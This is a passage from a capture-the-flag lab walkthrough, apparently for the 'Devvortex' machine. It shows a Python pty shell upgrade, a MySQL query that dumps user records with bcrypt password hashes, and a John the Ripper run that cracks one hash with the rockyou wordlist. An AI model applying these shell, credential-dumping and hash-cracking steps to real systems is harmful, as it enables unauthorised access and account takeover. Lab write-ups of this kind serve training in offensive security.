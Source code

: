 Once inside, let's use this for having mysql rights

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```


Once let's use this command for getting the all the users


```
mysql> SELECT * FROM sd4fg_users;
SELECT * FROM sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-02 17:42:25 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

So with john we can hack the hash
```
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt pass.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:07 DONE (2023-12-02 18:55) 0.1265g/s 182.2p/s 182.2c/s 182.2C/s lacoste..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
